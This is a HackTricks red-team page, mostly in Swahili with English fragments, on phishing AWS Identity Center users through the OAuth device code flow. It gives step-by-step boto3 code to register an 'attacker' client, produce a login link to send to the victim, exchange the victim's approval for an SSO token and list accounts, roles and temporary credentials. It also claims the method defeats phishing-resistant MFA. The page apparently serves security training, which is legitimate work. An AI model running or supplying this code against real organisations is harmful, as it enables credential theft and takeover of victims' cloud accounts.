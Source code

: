 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Kwanza ilipendekezwa katika [**hiki kipande cha blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji anaye tumia AWS SSO kwamba ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **token ya kujifanya kuwa mtumiaji** na kufikia majukumu yote ambayo mtumiaji anaweza kufikia katika **Kituo cha Utambulisho**.

Ili kutekeleza shambulio hili, mahitaji ni:

* Mwathirika anahitaji kutumia **Kituo cha Utambulisho**
* Mshambuliaji lazima ajue **subdomain** inayotumiwa na mwathirika `<victimsub>.awsapps.com/start`

Kwa kutumia taarifa hizo, **mshambuliaji ataweza kutuma kiungo kwa mtumiaji** kwamba ikiwa **kikubali** kitampa **mshambuliaji ufikiaji wa akaunti ya mtumiaji wa AWS**.

### Attack

1. **Kugundua subdomain**

Hatua ya kwanza ya mshambuliaji ni kugundua subdomain ambayo kampuni ya mwathirika inatumia katika Kituo chao cha Utambulisho. Hii inaweza kufanywa kupitia **OSINT** au **kukisia + BF** kwani kampuni nyingi zitakuwa zikitumika jina lao au toleo la jina lao hapa.

Kwa kutumia taarifa hii, inawezekana kupata eneo ambapo Kituo cha Utambulisho kilipangwa na:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa mwathiriwa & Tuma**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Kwa ajili ya onyesho, run this code in a python console and do not exit it as later you will need some objects to get the token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **Subiri hadi mwathirika akubali**

Ikiwa mwathirika alikuwa **tayari ameingia AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa, atahitaji **kuingia na kisha kukubali kutoa ruhusa**.\
Hii ndiyo jinsi ya kuonyesha inavyoonekana siku hizi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata token ya SSO**

Ikiwa mwathirika alikubali kuonyesha,endesha hii code ili **kuunda token ya SSO kwa kujifanya kama mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
The SSO access token is **valid for 8h**.

5. **Jifanya kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Ni furaha kujua kwamba shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kudanganywa" (webAuth) inatumika**. Hii ni kwa sababu **mchakato wa awali hauondoki kwenye eneo la OAuth lililotumika**. Si kama katika shambulio zingine za phishing ambapo mtumiaji anahitaji kubadilisha eneo la kuingia, katika kesi ambapo mchakato wa nambari ya kifaa umeandaliwa hivyo **nambari inajulikana na kifaa** na mtumiaji anaweza kuingia hata kwenye mashine tofauti. Ikiwa ombi litakubaliwa, kifaa, kwa **kujua nambari ya awali**, kitakuwa na uwezo wa **kurejesha akiba** kwa mtumiaji.

Kwa maelezo zaidi kuhusu hii [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
